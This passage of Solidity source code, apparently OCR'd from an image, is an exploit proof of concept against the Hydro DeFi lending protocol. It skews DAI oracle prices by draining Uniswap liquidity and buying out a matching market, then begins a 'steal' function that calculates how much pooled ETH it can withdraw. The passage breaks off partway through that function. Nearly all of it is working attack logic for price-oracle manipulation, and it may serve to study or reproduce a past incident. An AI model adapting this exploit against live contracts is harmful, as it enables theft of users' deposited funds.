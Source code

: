 ```javascript
        blockNumber(8572000);
    }
    
    function run() public {
        begin("exploit")
            .withBalance(INITIAL_BALANCE)
            .first(this.checkRates)
            .then(this.skewRates)
            .then(this.checkRates)
            .then(this.steal)
            .then(this.cleanup)
            .then(this.checkProfits);
    }
    
    function checkRates() external {
        uint ethPrice = ETH_ORACLE.getPrice(HYDRO_ETH);
        uint daiPrice = DAI_ORACLE.getPrice(DAI);
        
        printf("eth=%.18u dai=%.18u\n", abi.encode(ethPrice, daiPrice));
    }
    
    uint private boughtFromMatchingMarket = 0;
    
    function skewRates() external {
        skewUniswapPrice();
        skewMatchingMarket();
        require(DAI_ORACLE.updatePrice());
    }
    
    function skewUniswapPrice() internal {
        DAI.getFromUniswap(DAI.balanceOf(address(DAI.getUniswapExchange())) * 75 / 100);
    }
    
    function skewMatchingMarket() internal {
        uint start = DAI.balanceOf(address(this));
        WETH.deposit.value(address(this).balance)();
        WETH.approve(address(MATCHING_MARKET), uint(-1));
        while (DAI_ORACLE.getEth2DaiPrice() != 0) {
            MATCHING_MARKET.buyAllAmount(DAI, 5000 ether, WETH, uint(-1));
        }
        boughtFromMatchingMarket = DAI.balanceOf(address(this)) - start;
        WETH.withdrawAll();
    }
    
    function steal() external {
        HydroLike.Market memory ethDaiMarket = HYDRO.getMarket(ETHDAI_MARKET_ID);
        HydroLike.BalancePath memory commonPath = HydroLike.BalancePath({
            category: HydroLike.BalanceCategory.Common,
            marketID: 0,
            user: address(this)
        });
        HydroLike.BalancePath memory ethDaiPath = HydroLike.BalancePath({
            category: HydroLike.BalanceCategory.CollateralAccount,
            marketID: 1,
            user: address(this)
        });
        
        uint ethWanted = HYDRO.getPoolCashableAmount(HYDRO_ETH);
        uint daiRequired = ETH_ORACLE.getPrice(HYDRO_ETH) * ethWanted * ethDaiMarket.withdrawRate / DAI_ORACLE.getPrice(DAI) / 1 ether + 1 ether;
        
        printf("ethWanted=%.18u daiNeeded=%.18u\n", abi.encode(ethWanted, daiRequired));
        
```